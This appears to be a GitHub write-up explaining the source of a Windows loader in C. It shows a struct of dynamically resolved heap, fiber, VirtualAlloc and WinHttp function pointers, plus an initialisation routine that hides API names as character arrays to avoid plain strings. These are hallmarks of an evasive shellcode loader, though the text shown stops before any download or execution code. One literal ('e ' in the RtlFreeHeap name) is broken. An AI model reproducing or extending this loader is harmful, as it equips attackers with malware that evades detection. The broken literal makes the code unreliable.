 ## INSTANCE

Here we have the declaration of the Api structure and the Modules structure inside INSTANCE, with all the functions and modules we will use in our project. In the same file, we have the typing of the APIs being declared.

```c
typedef struct _INSTANCE {
  
  struct {
    fnRtlAllocateHeap         pRtlAllocateHeap;
    fnRtlReAllocateHeap       pRtlReAllocateHeap;
    fnRtlFreeHeap             pRtlFreeHeap;

    fnCreateFiber             pCreateFiber;
    fnSwitchToFiber           pSwitchToFiber;
    fnConvertThreadToFiber    pConvertThreadToFiber;
    fnLoadLibraryA            pLoadLibraryA;
    fnVirtualAlloc            pVirtualAlloc;

    fnWinHttpOpen             pWinHttpOpen;
    fnWinHttpConnect          pWinHttpConnect;
    fnWinHttpOpenRequest      pWinHttpOpenRequest;
    fnWinHttpSendRequest      pWinHttpSendRequest;
    fnWinHttpReceiveResponse  pWinHttpReceiveResponse;
    fnWinHttpReadData         pWinHttpReadData;
    fnWinHttpQueryHeaders     pWinHttpQueryHeaders;
    fnWinHttpCloseHandle      pWinHttpCloseHandle;
  } Api;

  struct {
    PVOID Ntdll;
    PVOID Kernel32;
    PVOID WinHttp;
  } Modules; 

} INSTANCE, *PINSTANCE; 
```

## InitInstance

Here, the function returns a pointer to the INSTANCE structure, which is where we will use the reference in the Main function. We have strings in CHAR and WCHAR to keep the value in the text section. We use LdrModuleAddr and LdrFuncAddr to fill in the modules and functions. In the case of WinHttp, it's necessary to use LoadLibrary because we need to load the DLL into the process. The LdrModuleAddr function can only handle modules already loaded in the current process.

```c
void InitInstance( _Out_ PINSTANCE pInstance){
  /*--------------------------[ Ntdll ]--------------------------*/

  WCHAR  wNtdll[]           = L"ntdll.dll";

  CHAR cRtlAllocateHeap[]   = { 'R', 't', 'l', 'A', 'l', 'l', 'o', 'c', 'a', 't', 'e', 'H', 'e', 'a', 'p', 0 };
  CHAR cRtlReAllocateHeap[] = { 'R', 't', 'l', 'R', 'e', 'A', 'l', 'l', 'o', 'c', 'a', 't', 'e', 'H', 'e', 'a', 'p', 0 };
  CHAR cRtlFreeHeap[]       = { 'R', 't', 'l', 'F', 'r', 'e', 'e', 'H', 'e ', 'a', 'p', 0 };

  pInstance->Modules.Ntdll          = LdrModuleAddr(wNtdll);

  pInstance->Api.pRtlAllocateHeap   = LdrFuncAddr(pInstance->Modules.Ntdll, cRtlAllocateHeap);
  pInstance->Api.pRtlReAllocateHeap = LdrFuncAddr(pInstance->Modules.Ntdll, cRtlReAllocateHeap);
  pInstance->Api.pRtlFreeHeap       = LdrFuncAddr(pInstance->Modules.Ntdll, cRtlFreeHeap);
```